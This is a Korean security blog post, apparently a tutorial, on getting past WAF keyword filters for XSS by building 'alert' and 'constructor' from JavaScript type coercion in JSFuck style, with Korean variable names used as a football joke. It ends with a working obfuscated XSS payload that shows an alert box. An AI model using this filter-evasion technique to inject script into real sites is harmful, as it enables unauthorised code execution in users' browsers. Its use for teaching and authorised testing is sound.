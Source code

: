 ```yaml
---
title: XSS Filtering bypass with JSFuck
date: 2022-10-17 
author: glasses96
categories: [WEB]
tags: [JSFuck,XSS]
pin: true
math: true
mermaid: true
---
```


> **XSS를 발견했지만 alert, confirm, prompt등 문자열이 WAF에서 필터링 되었을 때 JSFuck을 이용하여 이를 우회하는 방법을 알아봅시다.**
{: .prompt-info }


---

## What is JSFuck?

위키에 따르면 JavaScript 문법에서 사용되는 문자 중 단 6가지인 <span style="color:#9999FF">
[,],(,),!,+</span> 만으로 구현할 수 있음에 착안하여 고안된 난해한 프로그래밍 스타일이라고 합니다.

****

## Let's Make Script
만드는 방법은 [Hahuwl](https://www.hahwul.com/2018/11/20/waf-bypass-xss-payload-only-hangul/) 님의 블로그를 참고했습니다.

### Step 1. alert() 함수 문자열 만들기
완성해야될 스크립트는 <span style="color:#9999FF">
constructor.constructor('alert(45)')()</span> 입니다. 
해당 문구가 실행되는 원리는 하울님 블로그를 보시면 됩니다.

### Step 2. Make Alphabet
자바스크립트는 기본으로 <span style="color:#9999FF">
[],{}</span>을 이용하여 변수에 문자를 저장할 수 있습니다.
우리가 필요한 문자는 <span style="color:#9999FF">
a, c, e, l, n, o, r, s, t, u</span>  입니다.

| JS문법 | 결과 | JS문법 | 결과 |
| :---: | :---: | :---: | :---: |
| [] + {} | [obejct Object] | [a,b,c,d,e,f,g] = [] + {} | [obejct Object] |

위의 표대로 변수에 저장되면 다음과 같습니다.

| JS문법 | 결과 | JS문법 | 결과 | JS문법 | 결과 | JS문법 | 결과 |
| :---: | :---: | :---: | :---: |:---: | :---: | :---: | :---: |
| a | [ | b | o | c | b | d | j |
| e | e | f | c |  |  |  |  |


### Step 3. Repeat Step 1
Step 1에서 저장된 a를 찍어보면 <span style="color:#9999FF">
 [ </span> 가 찍힙니다. 또한 이를 이용하여 다른 문자열을 만들어 낼 수 있습니다.

| JS문법 | 결과 | JS문법 | 결과 |
| :---: | :---: | :---: | :---: |
| a | [ | !a | false |
| !!a | true | a.a | undefined |

[!a] + [!!a] + a.a = falsetrueunderfined 가 되고 이를 다시 변수로 저장시킵니다.
이로써 우리가 필요한 문자를 모두 얻을 수 있으며 이를 이용하여 수원 삼성이 잔류를 희망하는 부적을 만들 준비는 끝났습니다.

----

---
## Make Script

| 사용문법 | JS문법 | 결과 | JS문법 | 결과 | JS문법 | 결과 | JS문법 | 결과 |
| :---: | :---: | :---: | :---: |:---: | :---: | :---: | :---: | :---: |
| [,수,,,,원]=[] + {} | 수 | o | 원 | c |  |  |  |
| [,수,,,,원]=[] + {},[,삼,성,블,루,윙,즈,잔류,,,가즈아] = [!수]+[!!원]+수.원,수원삼성=원+수+가즈아+블+윙+즈+잔류+원+윙+수+즈,블루윙즈=원+수+가즈아+블+윙+즈+잔류+원+윙+수+즈 | 삼 | a | 성 | l | 블 | s | 루 | e |
|  | 윙 | t | 즈 | r | 잔류 | u | 가즈아 | n |
|  | 수원삼성 | constructor | 블루윙즈 | constructor
| [,수,,,,원] = [] + {},[,삼,성,블,루,윙,즈,잔류,,,가즈아] = [!수]+[!!원]+수.원,수원삼성=원+수+가즈아+블+윙+즈+잔류+원+윙+수+즈,블루윙즈=원+수+가즈아+블+윙+즈+잔류+원+윙+수+즈,잔류가즈아 = 삼+성+루+즈+윙 | 잔류가즈아 | alert |


해당 문구를 통해 완성된 페이로드는 아래와 같습니다.
> <span style="color:#9999FF"> ([,수,,,,원] = [] + {},[,삼,성,블,루,윙,즈,잔류,,,가즈아] = [!수]+[!!원]+수.원,수원삼성=원+수+가즈아+블+윙+즈+잔류+원+윙+수+즈,블루윙즈=원+수+가즈아+블+윙+즈+잔류+원+윙+수+즈,잔류가즈아 = 삼+성+루+즈+윙)[수원삼성][블루윙즈]\(잔류가즈아+"('수원삼성잔류가즈아!!!!')"\)() </span>

---
## Code Test
수원삼성잔류가즈아!!!! 페이로드가 잘 동작하는 것을 확인할 수 있습니다.
해당 부적으로 마지막 10월22일 김천전을 이기고, FC서울이 져서 <span style="color:#9999FF">잔류를 확정</span> 지었으면 좋겠습니다.
![수원삼성잔류가즈아](/assets/post/1/2.png)